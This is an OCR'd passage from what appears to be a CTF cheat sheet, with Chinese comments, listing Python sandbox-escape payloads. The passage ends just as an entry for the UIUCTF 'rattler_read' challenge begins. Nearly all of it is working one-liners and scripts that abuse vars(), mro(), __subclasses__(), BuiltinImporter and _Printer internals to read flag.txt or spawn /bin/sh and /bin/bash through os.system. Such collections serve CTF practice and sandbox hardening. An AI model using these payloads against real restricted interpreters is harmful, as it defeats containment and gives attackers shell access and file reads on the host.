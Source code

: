   - `E=type('',(),{'__eq__':lambda s,o:o})();x=vars(str)==E;x["count"]=lambda s,o:s` .详情见： https://github.com/python/cpython/issues/88004
  ```py
  #去除注释并用分号连接后使用
  self = vars(type(chr))['__self__']
  vrs = vars(type(self))['__get__'](self, chr)
  open = vars(vrs)['open']
  p = vars(vrs)['print']
  gat = vars(vrs)['getattr']
  fp = open('flag.txt', 'r')
  flag = gat(fp, 'read')()
  p(flag)

  #或

  # get vars() of <class 'type'>:
  tvs = vars(type(type(1)))
  # get __base__ attribute:
  base = tvs['__base__']
  # call base.__get__(type(1)) to get <class 'object'>:
  ot = vars(type(base))['__get__'](base, type(1))
  # pull getattr from <class 'object'>:
  gat = vars(ot)['__getattribute__']
  # get list of all classes:
  cs = gat(ot, '__subclasses__')()
  # find BuiltinImporter class:
  ldr = [x for x in cs if 'BuiltinImporter' in str(x)][0]
  # get load_module function:
  ldm = gat(gat(ldr, 'load_module'), '__func__')
  # load os and sys modules:
  os = ldm(ldr, 'os')
  sys = ldm(ldr, 'sys')
  # os.open(flag.txt):
  fp = gat(os, 'open')('flag.txt', gat(os, 'O_RDONLY'))
  # os.read(fp):
  flag = gat(os, 'read')(fp, 100)
  # sys.stdout.write(flag.decode()):
  gat(gat(sys, 'stdout'), 'write')(gat(flag, 'decode')())
  ```
  - `x = type.mro(type); x = x[1]; ga = vars(x)['__getattribute__']; sc = ga(x, '__subclasses__')(); pr = sc[136]('fleg',''); vars(pr)['_Printer__filenames'] = ['flag.txt']; pr()`,需要爆破`_Printer`的索引
  - `o=type(()).mro()[1];g=vars(o)['__getattribute__'];b=g(chr,'__self__');i=g(b,'__import__');o=i('os');s=g(o,'system');s("python -c \"print(open('flag.txt').read())\"")`
  ```py
  vars(vars()["license"])["_Printer__lines"]=None
  print(vars(vars()["license"])["_Printer__lines"])
  vars(vars()["license"])["_Printer__filenames"]=["flag.txt"]
  print(vars()["license"]())
  ```
  - `exit(vars(vars(type)["__subclasses__"](type.mro(type({}))[1])[99])['get_data'](vars(type)["__subclasses__"](type.mro(type({}))[1])[99]('flag.txt','./'),'flag.txt'))`
  - `x = vars(); a = [ x[k] for k in x.keys() ][:-1];aa = a[76];ga = vars(aa)['__getattribute__'];scs = ga(ga(aa,'__base__'),'__subclasses__')(); o = ga(scs[84],'load_module')('os'); vars(o)['system']('/bin/bash')`
  - `[1 for _ in '']+[x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close'][0]['system']('/bin/sh')`
  - `(lambda:__loader__.load_module("os").system("/bin/sh"))()`
  - `(lambda:().__class__.__base__.__subclasses__()[100].__init__.__globals__["__builtins__"]["__import__"]("os").system("/bin/sh"))()`
  - `__build_class__.__self__.__import__("os").system("sh")`
- [rattler_read](https://github.com/sigpwny/UIUCTF-2023-Public/tree/main/challenges/pwn/rattler_read)
    ```py
    """